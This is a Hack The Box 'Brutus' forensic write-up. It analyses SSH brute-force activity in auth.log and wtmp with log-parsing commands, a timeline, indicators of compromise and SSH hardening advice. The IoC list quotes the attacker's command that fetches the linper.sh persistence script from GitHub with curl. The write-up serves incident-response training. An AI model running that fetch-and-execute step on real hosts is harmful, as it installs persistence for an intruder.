 # HTB: Brutus - Forensic Analysis Writeup

![HTB Brutus](https://labs.hackthebox.com/storage/challenges/b7bb35b9c6ca2aee2df08cf09d7016c2.png)

## Overview

This writeup details the forensic investigation performed on the Hack The Box challenge **Brutus**. The analysis focuses on SSH authentication events, brute-force login activity, and post-compromise attacker behavior by reviewing `auth.log` and `wtmp` files extracted from a compromised Linux host.

---

## Box Information

| Attribute     | Value                  |
|---------------|------------------------|
| **Name**      | Brutus                 |
| **OS**        | Linux                  |
| **Category**  | Forensics / Incident Response |
| **Difficulty**| Medium                 |
| **Release**   | 2024                   |
| **Author**    | HTB Team               |

---

## Collected Evidence

The following log files were provided for analysis:

- **`auth.log`** – Syslog-format authentication log tracking logins, failures, and related events.
- **`wtmp`** – Binary session log that records user logins and logouts.

Both files were acquired from the target system post-compromise.

---

## Tools Used

- Command-line text utilities: `cut`, `grep`, `sort`, `uniq`, `rev`
- `last` – for parsing and viewing `wtmp`
- `head`, `less` – for manual log inspection

---

## Timeline of Events

| Date & Time         | Event Description                                      |
|---------------------|-------------------------------------------------------|
| Mar 6, 06:18:01     | CRON job executed by `confluence`                     |
| Mar 6, 06:19:54     | Successful root SSH login from `203.101.190.9`        |
| Mar 6, 06:31:33-42  | Burst of failed SSH logins; brute-force activity      |
| Mar 6, 06:31:40     | Successful root SSH login from `65.2.161.68`          |
| Mar 6, 06:32:44     | Successful root SSH login from `65.2.161.68`          |
| Mar 6, 06:37:34     | Successful `cyberjunkie` SSH login from `65.2.161.68` |

---

## Analysis

### Log File Time Discrepancies

- `auth.log` records the initiation of SSH authentication attempts.
- `wtmp` logs the beginning of user sessions (only after successful authentication).
- This explains the observed 1-second differences in the same event between the two logs.

---

### Log Activity Summary

**Top Programs by Log Activity:**
```bash
cat auth.log | cut -d' ' -f 6 | cut -d '[' -f 1 | sort | uniq -c | sort -nr
```
```
257 sshd
104 CRON
  8 systemd-logind
  6 sudo:
  3 groupadd
  2 usermod
  2 systemd:
  1 useradd
  1 passwd
  1 chfn
```
- High SSH activity suggests systematic brute-force attempts.
- User management commands indicate new accounts or privilege escalation steps.

---

### Brute-Force SSH Attempts

**Failed Logins:**
```bash
cat auth.log | grep Failed | cut -d: -f4 | cut -d' ' -f5- | rev | cut -d' ' -f6- | rev | sort | uniq -c | sort -nr
```
```
12 invalid user server_adm
11 invalid user svc_account
10 invalid user admin
 9 backup
 6 root
```
- The high concentration of attempts on different usernames within seconds confirms automated brute-force tools were used.

---

### Successful SSH Logins

**Accepted Passwords:**
```bash
cat auth.log | grep "Accepted password"
```
```
Mar  6 06:19:54 - root login from 203.101.190.9
Mar  6 06:31:40 - root login from 65.2.161.68
Mar  6 06:32:44 - root login from 65.2.161.68
Mar  6 06:37:34 - cyberjunkie login from 65.2.161.68
```
- The attacker succeeded in logging in as `root` and later as `cyberjunkie` from `65.2.161.68`, immediately after the brute-force burst.

---

### Indicators of Compromise (IoCs)

- **Malicious IP Address:** `65.2.161.68` (primary attack source)
- **Compromised Accounts:** `root`, `cyberjunkie`
- **Attack Vector:** SSH brute-force followed by successful password authentication
- **Suspicious Activity:** Downloaded and executed `/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh` (potential post-exploitation script)

---

## Observations

- **Automation:** The attacker used scripts or tools to automate SSH login attempts for common usernames.
- **Persistence:** Creation/use of a secondary user (`cyberjunkie`) for persistent access.
- **Post-exploitation:** The use of `linper.sh` suggests attempts at privilege escalation or enumeration.

---

## Recommendations

- **Disable direct SSH login for root**:
    ```
    PermitRootLogin no
    ```
- **Enforce key-based SSH authentication**:
    ```
    PasswordAuthentication no
    ```
- **Limit authentication attempts**:
    ```
    MaxAuthTries 3
    ```
- **Deploy fail2ban or similar** to block brute-force attempts.
- **Rotate all passwords** for affected or exposed accounts.
- **Audit for persistence**: Review for new/unknown user accounts.
- **Perform full forensic imaging** of memory and disk for deeper investigation.

---

## Conclusion

The investigation confirms a brute-force SSH attack from `65.2.161.68` led to compromise of the `root` and `cyberjunkie` accounts. The attacker established persistence and ran post-exploitation scripts due to insufficient SSH hardening. Implementation of best practices for SSH security and intrusion prevention is strongly recommended to prevent future incidents.

---
## Pwned
[Brutus](https://labs.hackthebox.com/achievement/sherlock/1390647/631)

**Author:** Krish Patel  
**Date:** April 29, 2025 
**Tags:** `hackthebox` `forensics` `incident-response` `ssh` `bruteforce` `linux`
